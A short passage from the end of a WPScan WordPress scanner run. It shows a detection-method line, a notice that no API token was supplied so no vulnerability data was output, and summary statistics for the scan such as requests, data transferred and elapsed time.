 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon May 25 04:35:05 2026
[+] Requests Done: 73
[+] Cached Requests: 6
[+] Data Sent: 20.645 KB
[+] Data Received: 323.377 KB
[+] Memory used: 199.871 MB
[+] Elapsed time: 00:00:04

``` -->